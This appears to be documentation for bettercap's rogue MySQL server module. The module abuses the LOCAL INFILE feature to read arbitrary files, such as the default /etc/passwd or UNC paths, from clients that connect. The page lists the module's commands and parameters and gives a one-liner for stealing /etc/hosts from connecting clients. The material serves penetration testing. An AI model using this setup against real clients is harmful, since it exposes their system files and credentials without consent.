 ```yaml
---
title: mysql.server (rogue)
description: A rogue MySQL server that can be used to exploit LOCAL INFILE and read arbitrary files from the client.
---
```


A rogue MySQL server that can be used to exploit [LOCAL INFILE and read arbitrary files](/modules/ethernet/spoofers/introduction/) from the client.

### Commands

#### `mysql.server on`

Start mysql server.

#### `mysql.server off`

Stop mysql server.

### Parameters

| Parameter              | Default               | Description                                                                      |
| ---------------------- | --------------------- | -------------------------------------------------------------------------------- |
| `mysql.server.address` | `<interface address>` | Address to bind the mysql server to.                                             |
| `mysql.server.infile`  | `/etc/passwd`         | File you want to read. UNC paths are also supported.                             |
| `mysql.server.outfile` |                       | If filled, the INFILE buffer will be saved to this path instead of being logged. |
| `mysql.server.port`    | `3306`                | Port to bind the mysql server to.                                                |

### Examples

One liner to start the server and steal `/etc/hosts` from clients connecting to your Rogue MySQL server

```bash
sudo bettercap -eval "set mysql.server.infile /etc/hosts; mysql.server on"
```

Now connect to your MySQL server and observe the file output on the Bettercap terminal

```bash
mysql -u root -h 192.168.1.123 -pasdsasad --enable-local-infile
```
